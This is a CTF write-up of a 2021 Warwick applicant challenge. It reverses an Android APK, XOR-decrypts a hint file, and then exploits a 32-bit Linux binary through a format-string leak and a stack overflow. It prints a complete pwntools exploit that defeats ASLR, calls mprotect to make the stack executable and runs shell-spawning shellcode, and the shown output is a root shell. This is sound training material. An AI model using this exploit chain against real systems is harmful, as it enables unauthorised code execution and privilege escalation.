

# Euan's Cyber2 Write-up

This is a write-up of the 2nd challenge that has been tasked for the 2021 Warwick applicants. This is my intended solution, although as I describe later, there are many ways to get the flag for this challenge. The flag is located in the user's desktop, located at `/home/user/Desktop`, and due to the flag having permissions of `root:root`, you have to privilege escalate to root, as a normal binary exploitation challenge goes (more to come on that later).

At the end, there is a TL;DR to recap of the steps taken and the techniques learnt / used.

### Warning
This is quite a long write-up, sorry!

## Let the write-up begin!
>  To start generating some wacky ideas, we're moving away from the simple angr rev and the bypass-of-a-canary-implementing-shellcode pwn. Instead, we're moving towards mobile rev and pwn.

> Category: binary exploitation (and reverse engineering)

So our description doesn't give us too much info about what the challenge is, nor the name. We're also told that this is both a reverse engineering and binary exploitation challenge, combining two of my strengths together, sweet!

So, let's download the file and see what we're working with.
```sh
euan@euanb26  cyber2  ls
cyber2.apk
```
So we have an android app. To analyse this, we can use a multitude of tools, such as:
- Jadx
- Android Studio
- Apktool
- Zip
  - Note that an apk is essentially just a zip file, so we can manually analyse the files.

I'm going to be using `Jadx-Gui` for my analysis.

Taking a look at the application structure:
```
cyber2.apk
├── Source Code
│   ├── android.support.p000v4
│   │   └── ...
│   ├── androidx
│   │   └── ...
│   └── com
│       ├── cyber.cyber2
│       │   ├── BuildConfig
│       │   ├── C0401R
│       │   └── MainActivity
│       └── google.android.material
│           └── ...
└── Resources
    ├── assets
    │   ├── encrypted_text.txt
    │   └── repeat_your_beat
    ├── META-INF
    │   └── ...
    ├── res
    │   └── ...
    ├── AndroidManifest.xml
    ├── classes.dex
    └── resources.arsc
```
Let's take a look at the `AndroidManifest.xml` file to make sure that nothing wacky has been done, and that everything should be as is.
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1"
      ...
        <activity android:name="com.cyber.cyber2.MainActivity">
          ...
        </activity>
    </application>
</manifest>
```
So we can see that our main activity is in `<activity android:name="com.cyber.cyber2.MainActivity">` which is normal to see.

So let's take a look in `MainActivity`
```java
public class MainActivity extends AppCompatActivity {
    private String what_this() throws IOException {
        AssetManager assets = getAssets();
        try {
            assets.list("");
        } catch (IOException unused) {
        }
        BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(assets.open("encrypted_text.txt"), "UTF-8"));
        String str = "";
        while (true) {
            String readLine = bufferedReader.readLine();
            if (readLine == null) {
                return str;
            }
            List asList = Arrays.asList(readLine.split("", Integer.parseInt("")));
            ArrayList arrayList = new ArrayList();
            arrayList.add("d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?");
            for (int i = 0; i < 47; i++) {
                arrayList.add("d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?");
            }
            asList.size();
            asList.remove(asList.size() - 1);
            for (int i2 = 0; i2 < asList.size(); i2++) {
                byte[] bytes = ((String) arrayList.get(i2)).getBytes(StandardCharsets.US_ASCII);
                str = str + Integer.toString(Integer.parseInt((String) asList.get(i2), 16) ^ bytes[0]);
            }
        }
    }

    /* access modifiers changed from: protected */
    @Override // androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, androidx.appcompat.app.AppCompatActivity, androidx.fragment.app.FragmentActivity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(C0401R.layout.activity_main);
        ((Button) findViewById(C0401R.C0404id.button)).setOnClickListener(new View.OnClickListener() {
            /* class com.cyber.cyber2.MainActivity.View$OnClickListenerC04001 */

            /* JADX WARNING: Removed duplicated region for block: B:12:0x005b  */
            /* JADX WARNING: Removed duplicated region for block: B:13:0x0078  */
            /* Code decompiled incorrectly, please refer to instructions dump. */
            public void onClick(android.view.View r7) {
                /*
                    r6 = this;
                    com.cyber.cyber2.MainActivity r7 = com.cyber.cyber2.MainActivity.this
                    ...
                */
                throw new UnsupportedOperationException("Method not decompiled: com.cyber.cyber2.MainActivity.View$OnClickListenerC04001.onClick(android.view.View):void");
        }
      });
  }
}    
```
So it seems as though Jadx can't decode the main method - `onCreate`, which is what happens when we open the file on our phone or emulator.

Taking a quick look at what we have in the smali, however, we can pull out some things.
```smali
...
android.widget.EditText r7 = (android.widget.EditText) r7
```
Is an EditText widget, so the app is allowing the user to enter in some text.
```smali
...
android.widget.TextView r0 = (android.widget.TextView) r0
...
```
There is a TextView, so the app is showing some text.
```smali
java.lang.String r2 = new java.lang.String     // Catch:{ UnsupportedEncodingException -> 0x0030 }
java.lang.String r3 = "MTVfN2gxc18zMTMzN18zbjB1Z2g/Cg=="
r4 = 0
byte[] r3 = android.util.Base64.decode(r3, r4)     // Catch:{ UnsupportedEncodingException -> 0x0030 }
java.lang.String r4 = "UTF-8"
java.lang.String r1 = "\\n\\t ]"
java.lang.String r3 = ""
java.lang.String r1 = r2.replaceAll(r1, r3)     // Catch:{ UnsupportedEncodingException -> 0x002e }
goto L_0x0038
```
Now this seems like it decodes some base64 text, and then strips the newline, tab and `]` characters ... let's just do that quickly
```bash
euan@euanb26  cyber2  python3 -c 'import base64 as b64;print(b64.b64decode("MTVfN2gxc18zMTMzN18zbjB1Z2g/Cg=="))'
b'15_7h1s_31337_3n0ugh?\n'
```
Ha, wow. Try and decode that one :)

Jumping to `L_0x0038`:
```smali
L_0x0038:
    java.lang.StringBuilder r2 = new java.lang.StringBuilder
    r2.<init>()
    android.text.Editable r3 = r7.getText()
    java.lang.String r3 = r3.toString()
    r2.append(r3)
    java.lang.String r3 = "line.separator"
    java.lang.String r3 = java.lang.System.getProperty(r3)
    r2.append(r3)
    java.lang.String r2 = r2.toString()
    boolean r1 = r1.equals(r2)
    if (r1 == 0) goto L_0x0078
    java.lang.StringBuilder r1 = new java.lang.StringBuilder
    r1.<init>()
    java.lang.String r2 = "Correct, the password is "
    r1.append(r2)
    android.text.Editable r7 = r7.getText()
    java.lang.String r7 = r7.toString()
    r1.append(r7)
    java.lang.String r7 = r1.toString()
    r0.setText(r7)
    goto L_0x007d
L_0x0078:
    java.lang.String r7 = "Uh oh, someone get it wrong. Please try again"
    r0.setText(r7)
```
Just to note some things:
- r1 = `15_7h1s_31337_3n0ugh?`
- r7 = EditText widget

So we can now roughly follow the smali code from `L_0x0038`:
1. Get the text from EditText (user input) and store in `r3` and strip the line separator (`\n`)
2. Compare user input to r1 (the 1337 speak)
3. If that's not true (0), then show error message in `L_0x0078`
4. Else, show correct message, and append the password to the end of the message.

So that's essentially what this program is doing, *or at least what's happening when we load the program up and what the user visually sees*.
We can also see it if we push the app to an android phone running a minimum SDK version 20 (as seen from the `AndroidManifest.xml` file)

```bash
euan@euanb26  cyber2  adb devices                                          
List of devices attached
Something        device

euan@euanb26  cyber2  adb install cyber2.apk
Success

euan@euanb26  cyber2  adb shell pm list packages | grep "com.cyber.cyber2"
package:com.cyber.cyber2
euan@euanb26  cyber2  adb shell am start -n "com.cyber.cyber2/com.cyber.cyber2.MainActivity"
Starting: Intent \{ cmp=com.cyber.cyber2/.MainActivity \}
```



Going back to the description, it says that the flag is actually encapsulated in `flag{}` ... so that base64 probably isn't the flag. I'm quite interested in that `what_this()` function that was at the top.
```java
BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(assets.open("encrypted_text.txt"), "UTF-8"));
```
So here, we're opening the file named `encrypted_text.txt` from the `assets` file, which then the contents are captured in `readLine`, makes sense.
```java
List asList = Arrays.asList(readLine.split("", Integer.parseInt("")));
```
The data is then put into a list, and is separated via `,` as the regex there shows.
```java
ArrayList arrayList = new ArrayList();
arrayList.add("d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?");
for (int i = 0; i < 47; i++) {
    arrayList.add("d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?");
}
```
Ha, don't we love the 1337 speak. So it looks like we're adding that leak speak to an array, 47 times (1 + 46) ~~now looking at that, I didn't put that first line in the for loop ... oh well~~.
```java
asList.remove(asList.size() - 1);
```
Remove the last element, we can see why in a bit.
```java
for (int i2 = 0; i2 < asList.size(); i2++) {
    byte[] bytes = ((String) arrayList.get(i2)).getBytes(StandardCharsets.US_ASCII);
    str = str + Integer.toString(Integer.parseInt((String) asList.get(i2), 16) ^ bytes[0]);
}
```
So we have a for loop repeating from 0 to the input from the file, and it's getting the byte at position `i2` from our 1337 array, which seems to convert it to it's ASCII equivalent.

Ah yes, the good old XOR. We're appending the xor operation of our input at position `i2` with the 1337 array at position `i2`. And then that's that function decrypted, whoop.

Let's take a look at `encrypted_text.txt`:
```
0x3d,0x5f,0x2a,0x59,0x44,0x1d,0x30,0x19,0x56,0x3,0x47,0x7f,0x10,0x5b,0x55,0x10,0x43,0x49,0x9,0x13,0x45,0x6,0x30,0x2,0x5d,0x10,0x48,0x35,0xc,0x43,0x1,0x52,0x3c,0xb,0x17,0x18,0x4,0x54,0x49,0x30,0x4a,0x16,0x10,0x28,0x18,0x49,0x55,0x2b,0x4,0x43,0x4,0x46,0x38,0xc,0x1f,0x14,0x5,0xd,0x54,0x46,0x1,0x0,0x11,0x7f,0x3,0x59,0x11,0x48,0x39,0x15,0x51,0x12,0x52,0x33,0xc,0x11,0x18,0x1c,0x18,0x49,0x7f,0x5d,0x1d,0x10,0x3a,0x15,0x55,0x3,0x3e,0x18,0x58,0x5,0x54,0x7f,0x1d,0x5c,0x41,0x16,0x43,0x5f,0x11,0x8,0x45,0x15,0x3a,0x5,0x5c,0x7,0x48,0x2b,0x16,0x10,0x7,0x1d,0x30,0x17,0x4d,0x59,0x24,0x1,0x44,0x7f,0x4b,0x11,0x44,0x73,0x59,0x49,0x1a,0x2a,0x4c,0x42,0x3,0x5c,0x2a,0x8,0x57,0x14,0xf,0xd,0x5f,0x11,0x46,0x7,0x0,0x2b,0x3,0x54,0x6,0x48,0x2b,0x11,0x51,0x1b,0x52,0x2b,0xb,0x13,0xd,0x5c,0x54,0x58,0x3a,0x57,0x1,0x1e,0x55,0x73,0x7e,0x1a,0x28,0x4c,0x42,0xe,0x56,0x7f,0xd,0x55,0x14,0x1d,0xc,0x45,0x46,0x5,0x4,0xb,0x7f,0x10,0x54,0x0,0x48,0x32,0x1c,0x10,0x7,0x17,0x32,0xc,0x6,0x1c,0x1c,0xd,0x1e,0x7f,0x76,0x43,0x5d,0x7f,0x11,0x59,0x11,0x36,0x2,0x56,0x4b,0x5c,0x31,0x44,0x47,0x5c,0x1,0x43,0x54,0x3,0x15,0xe,0x11,0x30,0x7,0x11,0x0,0x0,0x2d,0x16,0x45,0x12,0x1a,0x65,0x69,0x3b,0x29,0x4a,0x54,0x3a,0xf,0x50,0x16,0x44,0x65,0x59,0x3a,
```
Ah, so that's the reason that the last element was removed, because of the trailing comma at the end.

So let's quickly write our own decryption algorithm and pass in this:
```python
with open("encrypted_text.txt") as encrypt:
	data = encrypt.readline().split(",")
	data = data[:-1]
	temp = ""
	key = "d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?"*47
	for i in range(len(data)):
		temp += str(chr(int(data[i], 16) ^ ord(key[i])))
	print(temp)
```
Prints out
```
You thought that you could just cheat your way through, and get the flag locally by elevating your own perms to root? Tut tut, you should know better than that, hehe.

Now see if you can get me remotely. I'm hiding on the desktop through:
IP: [some_ip]
Port: 1337
```
So it seems as though the developer wanted the file to be only accessible to root, and that you would have to do something to gain privileges to read the file. Well, we haven't received the flag yet, and we've been given an IP and a port to connect to.

If we connect to that port:
```sh
 euan@euanb26  assets  nc ip port
 Let me repeat your beat!
	You go first!

hey
hey
ls
ls
whoami
whoami
;ls
;ls
```
Hmmm, so it seems as though it's printing out our input. Remember what else we had in the `assets` folder? We had a file called `repeat_your_beat`, and that's what this prints out at the start.
```sh
euan@euanb26  assets  file repeat_your_beat
repeat_your_beat: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=51fdd42ae17bfdc847d73f693f1f29b36f8ba411, for GNU/Linux 3.2.0, not stripped
```
Ah ha, so my guess is that we have to exploit this binary to get access to the flag!

So, let's do our normal enumeration
- 32 bit ELF file
- dynamically linked (yay for gadgets)
- not stripped

```bash
euan@euanb26  assets  pwn checksec repeat_your_beat
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
```
So it's quite protected:
- Full RELRO (so we can rule out GOT or PLT overwrite)
- NX enabled (so no shellcode)
- PIE enabled (so randomises binary base, which includes the PLT and GOT)
- *no* canary, so there's no checks for buffer overflows
```bash
euan@euanb26  assets  strings repeat_your_beat
td4
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
fflush
puts
stdin
printf
fgets
stdout
...
```
Nothing in the strings. Let's see how it operates:
```bash
euan@euanb26  assets  strace ./repeat_your_beat
execve("./repeat_your_beat", ["./repeat_your_beat"], 0x7ffd3cb576a0 /* 54 vars */) = 0
...
read(0, hey
"hey\n", 1024)                  = 4
write(1, "hey\n", 4hey
)                    = 4
read\(0, ^Cstrace: Process 27532 detached
 \<detached ...\>
```
Nothing really there. Let's take a look at the pseudocode, which can be shown with Ghidra (or radare2 or IDA, it's your pick):
```c
undefined4 main(undefined1 param_1)
{
  FUN_000110e0();
  FUN_000110c0();
  do {
    FUN_00011100();
    FUN_000110d0();
    FUN_000110b0();
    FUN_000110c0();
    } while( true );
}
...
void FUN_000110e0(void)
{
  int unaff_EBX;

                    /* WARNING: Could not recover jumptable at 0x000110e4. Too many branches */
                    /* WARNING: Treating indirect jump as call */
  (**(code **)(unaff_EBX + 0x18))();
  return;
}
```
Ahhhhh, so seems like Ghidra can't give us some pseudocode ... no worries, we can recreate it through the assembly.
```bash
euan@euanb26  assets  gdb repeat_your_beat
gef➤  b *main
Breakpoint 1 at 0x124d
gef➤  r
Starting program: [some_path]/repeat_your_beat
Breakpoint 1, 0x5655624d in main ()
gef➤  disas main
Dump of assembler code for function main:
=> 0x5655624d <+0>:	endbr32
   0x56556251 <+4>:	lea    ecx,[esp+0x4]
   0x56556255 <+8>:	and    esp,0xfffffff0
   0x56556258 <+11>:	push   DWORD PTR [ecx-0x4]
   0x5655625b <+14>:	push   ebp
...
   0x56556303 <+182>:	je     0x565562a0 <main+83>
   0x56556305 <+184>:	mov    eax,0x0
   0x5655630a <+189>:	lea    esp,[ebp-0x8]
   0x5655630d <+192>:	pop    ecx
   0x5655630e <+193>:	pop    ebx
   0x5655630f <+194>:	pop    ebp
   0x56556310 <+195>:	lea    esp,[ecx-0x4]
   0x56556313 <+198>:	ret
```

I've just seen that it starts with `endbr32`, which is using Intel's CET and shadow stacks, sweet.

So, turning this into pseudo-c-code. We can use a website called [Godbolt](https://godbolt.org/) which can turn c into assembly, so we can kinda bruteforce what the source code roughly is. We can also have help from the Control-flow graph that Ghidra gives us to gain this:
```c
int main(void) {
  char buf [256];
  int loop_var;

  loop_var = 0;
  puts("Let me repeat your beat!\n\tYou go first!");
  fflush(stdout);
  while (loop_var == 0) {
    fgets(buf,0x256,stdin);
    printf(buf);
    fflush(stdout);
  }
  return 0;
}
```
And with the source code, we can see some major bugs. We're getting `0x256` bytes of user input and putting it in a buffer of `256`, seems like someone wasn't paying attention to class when learning hex vs decimal. `printf` isn't then properly used, allowing a format string to be passed. Let's just test these hypotheses:
```bash
euan@euanb26  assets  ./repeat_your_beat
Let me repeat your beat!
 You go first!

%p
0x256
^C
✘ euan@euanb26  assets  python -c 'print("A"*500)'
AAAAAAAAAAAAAAAAA...
euan@euanb26  assets  ./repeat_your_beat
Let me repeat your beat!
 You go first!

AAAAAAAAAAAAAAAAAAA...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
[1]    29412 segmentation fault (core dumped)  ./repeat_your_beat
```
Correct, so we get a SIGSEGV and a format string vulnerability. So, what are some ways to attack this? We're only dealing with the stack so we can't attempt with any heap exploits. So what's available to us:
- Due to NX, we can use ROP gadgets
  - ret2libc - just calling `system("/bin/sh")`
  - Using oneGadget
- calling `mprotect()` to make a page have permissions `rwx`, therefore injecting shellcode and gaining a shell
- Abusing `printf()` with its `malloc_hook` functionality
- Write, what, where with the printf vulnerability
- Stack pivoting to our input to a ret2libc for example

I don't want to bore you too much with a normal ret2libc attack (well done for getting to here in the write-up though, it's been a long one). I think I'm going to go with calling `mprotect()` to make the stack executable and provide shellcode.

One thing that I forgot to mention - the remote server is probablty going to have ASLR enabled, so we need to use an Offset2lib to derandomise ASLR.

Using a fuzzer, we can see what we leak:
```python
from pwn import *
context.arch = "i386"
e = ELF("./repeat_your_beat")
p = process(e.path)
l = p.libc
rev = {value : key for (key, value) in l.sym.items()}
# Flip sym:addr dict
def exec_fmt(pl):
    p.sendline(pl)
    return p.clean()

for x in range(0, 256):
    l = exec_fmt(f"%{x}$p").strip()
    try:
        l = int(l, 16)
        print(f"%{x}$p : {hex(l)} - {rev[l]}")
    except:
        pass
```
```bash
euan@euanb26  binary  python3 fuzz.py
[*] '[some_path]/repeat_your_beat'
%2$p : 0xf7f2e5c0 - _IO_2_1_stdin_
```
And if we also try a ret2plt to read some addresses, we find that puts is located at `0xf7f3db40`
Let's put it into [libc blukht](https://libc.blukat.me/) and we get that the libc version is `libc6_2.27-3ubuntu1_i386`, great! We've now defeated ASLR.

Lets create our exploit:
```python
from pwn import *

def start():
    p = process(elf.path)
    libc = elf.libc

# Patched binary for using the server's libc and ld
elf = ELF("./repeat_your_beat")
ld = ELF("./ld-2.27.so")

start()
p.recvline()
# leaking libc, binary and stack
p.sendline("%2$x:%3$x:%83$x")
libc_leak, binary_leak, stack_leak = [int(x, 16) for x in p.recvline().decode().split(':')]

log.success(f"Libc leak = {hex(libc_leak)}")
log.success(f"Binary leak = {hex(binary_leak)}")
log.success(f"Stack leak = {hex(stack_leak)}")

# Bypassing ASLR using Offset2lib
libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
elf.address = binary_leak - (elf.sym.main + 26) # Binary leak gives address of <main + 26>
# Using offset2libc on ld base address
ld_base_from_libc_base_offset = 0x1e2000
ld.address = libc.address + ld_base_from_libc_base_offset

log.success(f"Libc @ {hex(libc.address)}")
log.success(f"ld @ {hex(ld.address)}")
log.success(f"Binary @ {hex(elf.address)}")

# Calculated using gdb for the patched binary with their server's libc and ld
saved_eip_offset = -40 # After main finishes, goes back to __libc_start_main()
input_buffer_offset = -0x148
# Getting value at __libc_stack_end to get a page-aligned value for stack
p.sendline(b"%8$s" + p32(ld.symbols["__libc_stack_end"]))
stack_end = u32(p.recvline()[:4])
# Shellcode generated using pwntools
shellcode = asm(shellcraft.i386.linux.sh)
payload = p32(shellcode)
payload += b"\xcc"*(260 - len(payload)) # offset upto the address which will be popped into ecx: pop ecx
payload += p32(stack_leak + saved_eip_offset + 4) # fixing ecx to give esp it's original value
payload += b"JUNK"*2 # junk for ebx and ebp
payload += b"A"*16 # Junk upto return address
payload += p32(libc.sym.mprotect) # jmp to mprotect
payload += p32(stack_leak + input_buffer_offset) # return address for mprotect
payload += p32(stack_end & -0x1000) # addr for the mprotect to make executable. Need to have a page-aligned value
payload += p32(0x1000) # length for mprotect to change permission
payload += p32(7) # permission to be set

p.sendline(payload)
p.recv()
p.interactive()
p.close()
```
So, where did we get all this from?

Let's start at the top:
```python
from pwn import *

def start():
    p = process(elf.path)
    libc = elf.libc

# Patched binary for using the server's libc and ld
elf = ELF("./repeat_your_beat")
ld = ELF("./ld-2.27.so")

start()
p.recvline()
...
```
So here, we're essentially setting up the environment, importing in the libc used remotely (we have to download it), setting the elf and ld version. We then start the program and receive the line (remember that there is a `\t` in the `puts` argument, which gives us the newline when printing it to stdout).

```python
...
p.sendline("%2$x:%3$x:%83$x")
libc_leak, binary_leak, stack_leak = [int(x, 16) for x in p.recvline().decode().split(':')]
...
```
When we did our fuzz, it showed that `%2$x` gave us our libc leak. Doing some of our own fuzzing, we can find that `%3$x` will give us a leak to the binary (either in the code or text segment). Then the `%83$x` gives us an address on the stack.
We then print out the addresses, for our own sanity

```python
...
# Bypassing ASLR using Offset2lib
libc.address = libc_leak - libc.symbols['_IO_2_1_stdin_']
elf.address = binary_leak - (elf.sym.main + 26) # Binary leak gives address of <main + 26>
# Using offset2libc on ld base address
ld_base_from_libc_base_offset = 0x1e2000
ld.address = libc.address + ld_base_from_libc_base_offset
...
```
Here is our bypassing of ASLR. We first get the libc leak, and using the fuzz earlier, we identified that the address leak was `_IO_2_1_stdin_`. Therefore, to get the base of libc, we have to subtract our leak from the offset that `_IO_2_1_stdin_` is - `libc.symbols` gives us a dictionary with the key as the libc function, and the value as the offset.

We can then find the base of the ELF and the base of ld. This is again doing the same kind of thing, subtracting our leak from an offset to find the base.

Skipping over the offsets for the time being:
```python
...
# Getting value at __libc_stack_end to get a page-aligned value for stack
p.sendline(b"%8$s" + p32(ld.symbols["__libc_stack_end"]))
stack_end = u32(p.recvline()[:4])
...
```
We can send another format strings, `%8$s` to ask the program to gives us back a string. In addition, we're also packing the ld symbol of `__libc_stack_end` in little endian to send it to the binary. This will allow us to gain the value at `__libc_stack_end`, which allows us to gain the end of the stack (which will be shown the reasons for this later), due to some offsets. We then save this value received into the variable `stack_end` and unpack it to big endian.

```python
...
shellcode = asm(shellcraft.i386.linux.sh)
payload = p32(shellcode)
...
```
Now we're starting to generate our payload which we will send. Pwntools has the handy function `shellcraft` to allow us to generate shellcode on the fly, in this case we're specifying the shellcode for a 32 bit linux machine, which will give us back a shell using `bash`. We then pack that into little endian.

```python
...
payload += b"\xcc"*(260 - len(payload)) # offset upto the address which will be popped into ecx: pop ecx
...
```
If we send in a De Bruijn pattern and try and find our offsets, we can see that we can overflow up until the `pop ecx` instruction is 260. We use this, because later in the assembly, to make the program 4kb page aligned, we have the instruction `lea esp, [ecx - 0x4]`. Therefore, to control the `esp`, we have to control `ecx`. For our junk buffer up to that 260, we fill it with a nop sled to hopefully gain us a shell if we muck up the offsets.

```python
saved_eip_offset = -40 # After main finishes, goes back to __libc_start_main()
...
payload += p32(stack_leak + saved_eip_offset + 4) # fixing ecx to give esp it's original value
...
```
We're now popping in the stack leak, plus the saved eip offset, plus 4 (to accommodate for the negation of 0x4 when loading the address into esp), into `ecx`. This is where our saved eip offset comes in. Somehow, we've got to provide a ret instruction or address to allow us to return to wherever we want to, that's how the program exits out of the `main` function.

What we can look at, is the fact that, well what happens when `main` does exit? It has to go somewhere. That "somewhere", as it turns out, goes back to `_start`. This is, where in assembly, `main` is actually called. `main` is started by the function `__libc_start_main()`, and then the next instruction in the `_start` (also known as `entry0` or `entry` to those deep into Ghidra and other decompilers), is where our program will go. Therefore, if we can find that address and provide it, it'll allow us to `ret` to wherever we want to.

```python
...
payload += b"JUNK"*2 # junk for ebx and ebp
payload += b"A"*16 # Junk upto return address
...
```
As it kind of says on the tin, just have some junk to fill the registers.

```python
...
input_buffer_offset = -0x148
...
payload += p32(libc.sym.mprotect) # jmp to mprotect
payload += p32(stack_leak + input_buffer_offset) # return address for mprotect
payload += p32(stack_end & -0x1000) # addr for the mprotect to make executable. Need to have a page-aligned value
payload += p32(0x1000) # length for mprotect to change permission
payload += p32(7) # permission to be set
...
```
So here is our functionality of the payload. We provide our `ret` address with the address for `mprotect`, to allow us to change the permissions of the stack page. We're then providing a return address for where `mprotect` should jump to if it fails. This is the same when doing a ret2libc - we provide an address for `system`, then a return address if it were to fail, normally junk bytes or an address for `exit`.

Then, we provide the address for the section which we want to change the permissions for. I perform bitwise and on the stack end with `0x1000` (pages are only 0x1000 in size, therefore we need to find the start of the memory mapping, which is at `0xABCDE000`), to therefore get the start of the stack page. We then provide the length of the page, as I've just said `0x1000`. The permission we want to set it `rwx`, or read, write and execute. This'll allow us to read the page (every page must be able to do this), write our shellcode to it, and then execute our shellcode.

```python
...
p.sendline(payload)
p.recv()
p.interactive()
p.close()
```
We then send our payload, receive back the data given (due to the program repeating anything we send to it), and then go into interactive mode. This'll give us our bash shell and allow us to execute any command we want. Once we exit interactive mode, we then have a nice close function to easily close without any EOF errors.

If we now run the exploit:
```bash
euan@euanb26  assets  python3 exploit.py
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '[some_path]/ld-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Starting local process '[some_path]/repeat_your_beat': pid 31634
[*] '[some_path]/libc-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Libc leak = 0xf7f3f5c0
[+] Binary leak = 0x565dc637
[+] Stack leak = 0xff98b884
[+] Libc @ 0xf7d67000
[+] Ld @ 0xf7f49000
[+] Binary @ 0x565dc000
[*] Switching to interactive mode
$ whoami
euan
$  
```
Boom, we've exploited it locally. Now moving it to remote and tweaking the exploit a bit to cater for that:
```bash
euan@euanb26  assets  python3 exploit.py
[*] '[some_path]/repeat_your_beat'
   Arch:     i386-32-little
   RELRO:    Full RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[*] '[some_path]/ld-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Starting local process '[some_path]/repeat_your_beat': pid 31634
[*] '[some_path]/libc-2.27.so'
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    Canary found
   NX:       NX enabled
   PIE:      PIE enabled
[+] Libc leak = 0xf7f3f580
[+] Binary leak = 0x565dc637
[+] Stack leak = 0xff98b884
[+] Libc @ 0xf7d67000
[+] Ld @ 0xf7f49000
[+] Binary @ 0x565dc000
[*] Switching to interactive mode
$ whoami
root
$ pwd
/home/user/Desktop
$ ls
repeat_your_beat encrypted_text.txt
$ cat encrypted_text.txt
0x2d,0x10,0x39,0x1c,0x55,0x19,0x7f,0x0,0x58,0x0,0x56,0x7f,0xb,0x5d,...
$ nano decryption.py
$ cat decryption.py
with open("encrypted_text.txt") as encrypt:
	data = encrypt.readline().split(",")
	data = data[:-1]
	temp = ""
	key = "d0_y0u_l1k3_d34dc0ffee_w1th_y0ur_crypt0_?"*47
	for i \in range(len(data)):
		temp += str(chr(int(data[i], 16) ^ ord(key[i])))
	print(temp)
$ python3 decryption.py
```
Which if we pass into our decryption algorithm that we created beforehand, we get our output!

Wow, what a roller coaster of events! That was rather long, but I hope you enjoyed it :)

## TL;DR
1. Reverse apk to find binary and encrypted text
2. Make sense of decryption technique inside the binary
3. Find that binary has a buffer overflow and format string vulnerability
4. Leak libc version for remote
5. Send over exploit through either ret2libc or using `mprotect` to execute shellcode, even with NX on
6. Read answer!!!
